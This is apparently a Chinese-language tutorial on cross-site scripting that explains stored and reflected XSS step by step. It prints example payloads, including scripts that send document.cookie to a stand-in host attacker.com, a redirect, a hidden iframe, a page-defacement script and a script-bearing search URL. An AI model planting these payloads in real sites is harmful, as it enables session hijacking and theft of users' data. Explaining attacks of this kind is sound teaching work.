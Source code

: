 # 跨站脚本攻击（XSS）

跨站脚本攻击（Cross-Site Scripting, XSS）是一种常见的 Web 安全漏洞, 攻击者通过在网页中注入恶意脚本, 当其他用户访问该页面时, 脚本会在他们的浏览器中执行。XSS 攻击可能导致用户信息泄露、会话劫持、钓鱼攻击等严重后果。

## XSS 攻击的类型

XSS 攻击主要分为以下三种类型：

### 存储型 XSS（Stored XSS）
- 描述：攻击者将恶意脚本提交到服务器并存储在数据库中，当其他用户访问包含恶意脚本的页面时，脚本会在他们的浏览器中执行。

- 特点：
  - 恶意脚本存储在服务器上。
  - 所有访问受影响页面的用户都会受到攻击。
  - 危害性更大，影响范围更广。

示例攻击步骤：
#### 1. 发现输入点
攻击者寻找允许用户输入内容且未充分过滤的 Web 功能模块，例如：
  - 留言板、评论区
  - 用户个人资料（如昵称、简介）
  - 文件上传（文件名或文件内容）
  - 论坛帖子、聊天消息

示例：
攻击者发现一个在线论坛允许用户在帖子中插入 HTML 标签。

#### 2. 构造恶意脚本
攻击者根据目标页面的上下文构造恶意脚本（Payload），常见形式包括：

1. 窃取 Cookie：
```html
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```

2. 伪造登录页面（钓鱼）：

  引导用户访问一个伪装成合法网站的钓鱼网站，以获取更多个人信息。

  - 重定向用户：

  ```js
  <script>
    window.location.href='http://attacker.com';
  </script>
  ```
  - 或者更隐蔽地，在页面中插入一个不可见的iframe：
  - 攻击者可以利用不可见的`<iframe>`覆盖在合法页面上，诱导用户点击他们认为是正常界面元素的位置。实际上，用户的点击会触发在`<iframe>`内加载的恶意页面上的操作，如下载恶意软件、访问恶意网站等。
  ```html
  <iframe src="http://attacker.com" style="width:0;height:0;border:0; border:none;"></iframe>
  ```

3. 触发恶意行为：
```html
<img src="invalid" onerror="alert('XSS')">
```

4. 篡改网页内容
修改网页的内容，误导用户或破坏用户体验。

篡改显示内容：
```javascript
<script>
  document.body.innerHTML = '<h1>京东网管是大傻X, 网站已被攻击!!!</h1>';
</script>
```
这种攻击不仅会影响用户体验，还可能导致用户对网站的信任度下降。

#### 3. 提交恶意内容
攻击者将构造的恶意脚本通过输入点提交到服务器，并被存储到数据库中（数据库将保存未经处理的用户输入，包括恶意脚本）。

示例：

攻击者在论坛的帖子中插入以下内容：

```html
<script>
  // 窃取用户的 Cookie 并发送到攻击者的服务器
  fetch('https://attacker.com/steal?data=' + encodeURIComponent(document.cookie));
</script>
```

#### 4. 触发恶意脚本
当其他用户访问包含恶意脚本的页面时，服务器会将存储的恶意内容返回给用户的浏览器，浏览器解析并执行脚本。

示例：

普通用户访问被篡改的论坛帖子时，浏览器会执行以下步骤：

1. 从服务器加载帖子内容。
2. 解析 HTML 时发现 `<script>` 标签。
3. 执行脚本，将用户的 Cookie 发送到攻击者的服务器。


### 反射型 XSS（Reflected XSS）
- 描述：攻击者将恶意脚本作为参数注入到 URL 中，当用户点击包含恶意脚本的链接时，脚本会在用户的浏览器中执行。

- 特点：
  - 恶意脚本通过 URL 传递。
  - 通常需要用户主动点击恶意链接。
  - 攻击是一次性的，仅对点击链接的用户生效。

- 示例：
  假设有一个搜索功能的网站，其URL格式如下：
```
https://example.com/search?q=keyword
```

当用户提交一个查询词“keyword”，服务器会生成一个包含该查询词的结果页面，并将“keyword”显示在结果页面中。如果这个过程没有对用户的输入进行适当的处理，那么攻击者可以构造一个包含恶意JavaScript代码的URL，例如：
```
https://example.com/search?q=<script>alert('XSS')</script>
```
如果用户点击了这个链接或者搜索引擎索引了这个链接并展示给其他用户点击，那么当页面加载时，这段恶意脚本就会被执行，在用户的浏览器上弹出一个警告框。这只是一个简单的例子，实际攻击可能会更复杂和危险，如窃取cookie信息、执行身份验证操作等。